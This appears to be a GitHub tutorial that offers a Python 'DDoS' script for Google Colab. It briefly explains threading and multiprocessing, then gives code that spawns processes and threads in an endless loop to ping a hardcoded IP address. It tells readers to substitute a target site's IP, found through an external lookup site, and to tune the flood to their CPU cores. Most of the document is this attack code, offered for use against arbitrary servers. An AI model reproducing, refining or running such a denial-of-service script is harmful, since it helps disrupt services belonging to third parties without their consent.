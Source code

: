 # Denial-of-service attack (DDoS) with Threading and Multiprocessing

**I performed these operations through Google Colab Pro.**

**What is Threading and Multiprocessing?:**
    
Threading means making breakfast while brewing tea. Multiprocessing is just like someone else preparing the table while you are preparing breakfast.

When using threading, a single operation executes two jobs from different branches simultaneously. In Multiprocessing, there are two separate processes.

**Importing the modules for threading and multiprocessing in Python, and installing the necessary packages for the ping command to run in Linux.**

```python
from multiprocessing import Process
import threading
import multiprocessing
import os

!apt-get update
!apt-get install iputils-ping
```

**Main idea**

Our main idea is to transfer the code to two independent threads asynchronously in an endless loop, and these two threads will perform two more operations asynchronously. As a result, 2 X 2 = 4 operations will be performed in each loop, ie ping the target server 4 times in each loop. Then let's code :).

**Domain, to learn the IP address of the site address**

Click on the link below and proceed to the site, then paste the link of the target site here and click query, we will use the address that comes out is our destination address. Link : http://www.ipsorgu.com/site_ip_adresi_sorgulama.php

```python
def proca():
    
    # Destination server address. Paste the destination address here.
    os.system("ping 172.82.234.64")

def procb():
    
    # Destination server address. Paste the destination address here.
    os.system("ping 172.82.234.64")

def one():
    
    # Two different operations from 2 different functions will be done in this thread.
    a = threading.Thread(target=proca)
    a.start()

    b = threading.Thread(target=procb)
    b.start()

def two():
    
    # Two different operations from 2 different functions will be done in this thread.
    a = threading.Thread(target=proca)
    a.start()

    b = threading.Thread(target=procb)
    b.start()

# Infinite ping :)
while True:
    
    # The one function starts running on another thread.
    p = Process(target=one)
    p.start() 
    # The one function is executed, but the code continues to be received from the next line.
    
    # second function, second thread
    q = Process(target=two)
    q.start()
```

**Organize the above code according to your own CPU cores. I guess you can get better results with CPUs with high multi-core performance. You can find out the total number of threads in the CPU with the code block below.**

```python
print("Total number of threads : ", multiprocessing.cpu_count())
```


